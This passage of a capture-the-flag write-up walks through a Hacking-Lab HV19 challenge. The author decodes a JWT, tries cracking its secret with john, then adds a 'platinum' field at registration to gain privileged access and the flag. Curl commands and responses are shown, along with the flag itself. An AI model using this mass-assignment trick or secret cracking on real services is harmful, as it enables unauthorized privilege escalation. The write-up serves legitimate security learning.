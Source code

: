 The token is a JWT, which is a token with encoded information, and that is
carries a signature. Without knowing the password used to sign the token, I
can’t change the information in the token, as it will be invalid. But I can
decode it and read the information. One way to do that is to drop it into
[jwt.io](https://jwt.io), which decode this one for me:

![image-20191210204701283](https://0xdfimages.gitlab.io/img/image-20191210204701283.png)

I can see it carries my username, and a field, `platinum`, which is set to
false. If I knoew the secret, I could change information, like setting
`platinum` to true. But I don’t. I gave it a quick attempt to crack the secret
using `john`, but no luck.

I went back to the registration, where the API tells me to send a username and
password. I tried registering with an additional field, and it returned
success:

    
    
    $ curl -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/register --data '{"username":"0xdfdf", "password": "passwordpassword", "platinum": "true"}'
    {"message":"User created","code":201}
    

Now I log in to get the token:

    
    
    $ curl -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/login --data '{"username":"0xdfdf", "password": "passwordpassword"}'
    {"message":"Token generated","code":201,"token":"eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoiMHhkZmRmIiwicGxhdGludW0iOnRydWV9LCJleHAiOjE1NzYwMzI0NjQuODExMDAwMDAwfQ.3ZJH-BjN9-EGv2_YGgLeF_qGaFDwgzaMPzKgurOoW_s"}
    

If I toss that token into the debugger at [jwt.io](https://jwt.io), I see that
`platinum` is set to true for this token:

![image-20191210205109717](https://0xdfimages.gitlab.io/img/image-20191210205109717.png)

Now if I request a quote, I get the flag:

    
    
    $ curl -s -X GET "http://whale.hacking-lab.com:10101/fsja/random?token=eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoiMHhkZmRmIiwicGxhdGludW0iOnRydWV9LCJleHAiOjE1NzYwMzI0NjQuODExMDAwMDAwfQ.3ZJH-BjN9-EGv2_YGgLeF_qGaFDwgzaMPzKgurOoW_s"
    {"joke":"Congratulation! Sometimes bugs are rather stupid. But that's how it happens, sometimes. Doing all the crypto stuff right and forgetting the trivial stuff like input validation, Hohoho! Here's your flag: HV19{th3_cha1n_1s_0nly_as_str0ng_as_th3_w3ak3st_l1nk}","author":"Santa","platinum":true}
    

**Flag:`HV19{th3_cha1n_1s_0nly_as_str0ng_as_th3_w3ak3st_l1nk}`**

## Hidden 3

### Challenge

